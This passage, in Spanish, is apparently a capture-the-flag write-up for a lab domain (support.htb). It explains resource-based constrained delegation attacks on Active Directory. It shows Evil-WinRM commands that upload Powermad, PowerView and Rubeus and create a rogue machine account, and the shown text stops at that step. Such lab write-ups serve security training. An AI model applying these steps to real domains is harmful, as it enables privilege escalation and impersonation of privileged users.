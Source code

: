 ¿Qué es el **resource based constrained delegation attack**?

| **Resource-based Constrained Delegation Attack** |
|:-----------:|
| *Un Resource-Based Constrained Delegation Attack (o ataque de delegación restringida basada en recursos) es una técnica de ataque en Active Directory que explota la delegación restringida basada en recursos de Kerberos, lo que permite a un atacante ganar acceso a servicios y realizar acciones en nombre de otros usuarios, incluso cuentas privilegiadas, sin necesidad de sus credenciales.* |

<br>

Podríamos seguir los pasos que indica **BloodHound**, pero si usamos **HackTricks** nos explican más cómo funciona y cómo se usa este ataque:
* <a href="https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/resource-based-constrained-delegation" target="_blank">Resource-based Constrained Delegation</a>

Antes que nada y primero que todo, vamos a cargar las siguientes herramientas a nuestra sesión:
* <a href="https://github.com/Kevin-Robertson/Powermad/blob/master/Powermad.ps1" target="_blank">Repositorio de Kevin-Robertson: Powermad.ps1</a>
* <a href="https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1?ref=blog.zsec.uk" target="_blank">Repositorio de PowerShellMafia: PowerView.ps1</a>
* <a href="https://github.com/r3motecontrol/Ghostpack-CompiledBinaries" target="_blank">Repositorio de r3motecontrol: GhostPack-Compiled Binaries (Rubeus.exe)</a>

Carguémoslos:
```batch
*Evil-WinRM* PS C:\Users\support\Documents> upload Powermad.ps1
Info: Uploading /../Powermad.ps1 to C:\Users\support\Documents\Powermad.ps1
Data: 180768 bytes of 180768 bytes copied
Info: Upload successful!
*Evil-WinRM* PS C:\Users\support\Documents> upload PowerView.ps1
Info: Uploading /../PowerView.ps1 to C:\Users\support\Documents\PowerView.ps1
Data: 1027036 bytes of 1027036 bytes copied
Info: Upload successful!
*Evil-WinRM* PS C:\Users\support\Documents> upload /Ghostpack-CompiledBinaries/Rubeus.exe
Info: Uploading /..//Ghostpack-CompiledBinaries/Rubeus.exe to C:\Users\support\Documents\Rubeus.exe
Data: 595968 bytes of 595968 bytes copied
Info: Upload successful!
```

Y vamos a cargar los **módulos Powermad.ps1 y PowerView.ps1**:
```batch
*Evil-WinRM* PS C:\Users\support\Documents> Import-Module .\Powermad.ps1
*Evil-WinRM* PS C:\Users\support\Documents> Import-Module .\PowerView.ps1
```

Ahora, a partir de aquí, podemos seguir los pasos que nos indica **HackTricks**:

* Primero vamos a crear una cuenta nueva, tal como indica **HackTricks**:
```batch
*Evil-WinRM* PS C:\Users\support\Documents> New-MachineAccount -MachineAccount SERVICEA -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose
Verbose: [+] Domain Controller = dc.support.htb
Verbose: [+] Domain = support.htb
Verbose: [+] SAMAccountName = SERVICEA$
Verbose: [+] Distinguished Name = CN=SERVICEA,CN=Computers,DC=support,DC=htb
[+] Machine account SERVICEA added
```
Recuerda esta contraseña, porque la vamos a ocupar después.
